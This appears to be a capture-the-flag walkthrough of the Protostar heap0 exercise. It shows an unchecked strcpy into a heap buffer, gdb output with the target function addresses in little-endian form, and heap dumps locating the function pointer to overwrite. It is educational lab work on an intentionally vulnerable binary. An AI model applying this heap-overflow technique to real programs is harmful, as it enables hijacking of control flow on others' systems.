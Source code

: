 ```c
  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

```
(gdb) p &winner
$1 = (void (*)(void)) 0x8048464 <winner>
address of winner -> 0x08048464 -> \x64\x84\x04\x08
```

```
(gdb) p &nowinner
$2 = (void (*)(void)) 0x8048478 <nowinner>
address of nowinner -> 0x08048478 -> \x78\x84\x04\x08
```

```
disass main
...
b *0x080484f7  (after strcpy)
run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```
(gdb) info proc map  (where does the heap start?)
process 6956
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
---> 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fdf000 0xb7fe2000     0x3000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```

```
(gdb) x/22x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a050:	0x08048478	0x00000000
```
